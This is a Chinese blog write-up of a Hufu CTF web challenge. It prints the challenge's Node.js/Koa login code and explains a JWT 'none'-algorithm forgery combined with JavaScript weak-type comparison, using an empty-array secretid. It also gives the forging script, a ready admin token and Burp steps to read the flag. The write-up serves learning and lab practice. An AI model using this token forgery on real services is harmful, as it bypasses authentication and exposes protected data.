

终于重新搭好了博客，惊喜万分，虽然说搭了好久，但搭的越多次，速度就越快
和我一起加油吧！
本题为复现题，在虎符那场比赛里没出来几题，我果然是太菜了
考点：
Node.js代码审计
Node.js弱类型比较
解题步骤：
1.首先进来看到的界面是：

2.按照常规思路就直接审计源码，看看有没有什么好看的

看到里面的/static/js/app.js代码写到static是直接映射到根目录的（题目是直接用注释写着）
当时比赛的时候看到koa，认为是跟koa有关的框架的漏洞，，就后面去想别的了，接着就GG
3.然后看了一下node.js框架的基本内容，直接尝试读取了其常见的主文件app.js，成功后，用同样的方式，
把上面所有的文件都扒拉下来
4.接着就是审计扒拉下来的博客，由于对js不是很熟，放弃之后
后面看了赵师傅的博客
跟着走了一遍
重点审计controllers/api.js
const crypto = require('crypto');
const fs = require('fs')
const jwt = require('jsonwebtoken')
const APIError = require('../rest').APIError;
module.exports = {
'POST /api/register': async (ctx, next) => {
const {username, password} = ctx.request.body;
if(!username || username === 'admin'){
throw new APIError('register error', 'wrong username');
}
if(global.secrets.length > 100000) {
global.secrets = [];
}
const secret = crypto.randomBytes(18).toString('hex');
const secretid = global.secrets.length;
global.secrets.push(secret)
const token = jwt.sign({secretid, username, password}, secret, {algorithm: 'HS256'});
ctx.rest({
token: token
});
await next();
},
'POST /api/login': async (ctx, next) => {
const {username, password} = ctx.request.body;
if(!username || !password) {
throw new APIError('login error', 'username or password is necessary');
}
const token = ctx.header.authorization || ctx.request.body.authorization || ctx.request.query.authorization;
const sid = JSON.parse(Buffer.from(token.split('.')[1], 'base64').toString()).secretid;
console.log(sid)
if(sid === undefined || sid === null || !(sid < global.secrets.length && sid >= 0)) {
throw new APIError('login error', 'no such secret id');
}
const secret = global.secrets[sid];
const user = jwt.verify(token, secret, {algorithm: 'HS256'});
const status = username === user.username && password === user.password;
if(status) {
ctx.session.username = username;
}
ctx.rest({
status
});
await next();
},
'GET /api/flag': async (ctx, next) => {
if(ctx.session.username !== 'admin'){
throw new APIError('permission error', 'permission denied');
}
const flag = fs.readFileSync('/flag').toString();
ctx.rest({
flag
});
await next();
},
'GET /api/logout': async (ctx, next) => {
ctx.session.username = null;
ctx.rest({
status: true
})
await next();
}
};重点代码如下：
module.exports = {
'POST /api/register': async (ctx, next) => {
const {username, password} = ctx.request.body;
if(!username || username === 'admin'){
throw new APIError('register error', 'wrong username');
}
if(global.secrets.length > 100000) {
global.secrets = [];
}
const secret = crypto.randomBytes(18).toString('hex');
const secretid = global.secrets.length;
global.secrets.push(secret)
const token = jwt.sign({secretid, username, password}, secret, {algorithm: 'HS256'});
ctx.rest({
token: token
});
await next();
},在注册的时候（/api/register），接受传入的username和password，先判断username不为admin之后，然后生成一个key，用这些信息后再生成一个jwt的令牌，key同时存入全局数组
'POST /api/login': async (ctx, next) => {
const {username, password} = ctx.request.body;
if(!username || !password) {
throw new APIError('login error', 'username or password is necessary');
}
const token = ctx.header.authorization || ctx.request.body.authorization || ctx.request.query.authorization;
const sid = JSON.parse(Buffer.from(token.split('.')[1], 'base64').toString()).secretid;
console.log(sid)
if(sid === undefined || sid === null || !(sid < global.secrets.length && sid >= 0)) {
throw new APIError('login error', 'no such secret id');
}
const secret = global.secrets[sid];
const user = jwt.verify(token, secret, {algorithm: 'HS256'});
const status = username === user.username && password === user.password;
if(status) {
ctx.session.username = username;
}
ctx.rest({
status
});
await next();
},然后在登录的时候（/api/login），接受传入的username和password，从令牌的信息段里面取出key的id，从全局数组中取出key来进行验证，验证通过之后置session中的username为登录时的username
获取flag时，假若用户为admin，则立刻给他flag
所以本题的解题过程就很清晰
一、注册
二、登录时成为admin
三、得到flag
已知：jwt令牌来进行信息存储，且使用的是jsonwebtoken库来进行操作，此处进行的是HS256加密
在webstorm里面
当加密时使用的是 none 方法，验证时只要密钥处为 undefined 或者空之类的，即便后面的算法指名为 HS256，验证也还是按照 none 来验证通过，这样很轻松地就可以伪造一个 username 为 admin 的 jwttoken 了。
而且当两处都有密钥key的时候，会报错
const sid = JSON.parse(Buffer.from(token.split('.')[1], 'base64').toString()).secretid;
console.log(sid)
if(sid === undefined || sid === null || !(sid < global.secrets.length && sid >= 0)) {
throw new APIError('login error', 'no such secret id');
}
const secret = global.secrets[sid];
const user = jwt.verify(token, secret, {algorithm: 'HS256'});
接着返回源代码程序中，需要修改 secretid，使其无法作为全局变量secrets数组的索引—>secret则会自动置空
注意，这里还有一个验证，要求 sid 不能为 undefined，null，并且必须在全局变量 secrets 数组的长度和 0 之间。乍看之下没有操作空间，怎么整都会取出 密钥 key。但别忘了 JavaScript 是一门弱类型语言，NodeJS 都是 JS 的语法，那自然也是咯。所以我们只要选择恰当的数据来绕过这个判断即可。
空数组/空字符串与数字比较永远为真
参考赵师傅的代码：
const jwt = require('jsonwebtoken')
token = jwt.sign({secretid:[], username:"admin", password:"123456"}, undefined, {algorithm: 'none'});
console.log(token)生成一个 secretid 为空数组的令牌，username 设为admin，加密方式为 none（设为none的话会自动用HS256），绕过验证，使得最后登录时验证的用户名为 admin
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzZWNyZXRpZCI6W10sInVzZXJuYW1lIjoiYWRtaW4iLCJwYXNzd29yZCI6IjEyMzQ1NiIsImlhdCI6MTU4NzMwMjYxN30.
接着注册就初始化全局变量 secrets 数组
然后登录的时候记得在bp里面改username为admin，然后用上面的payload改token（Authorization），bp的response里面就即可出现flag
总结：
审计
jwt生成
js的弱类型比较
一盘青梅，一壶清茶，聊聊web？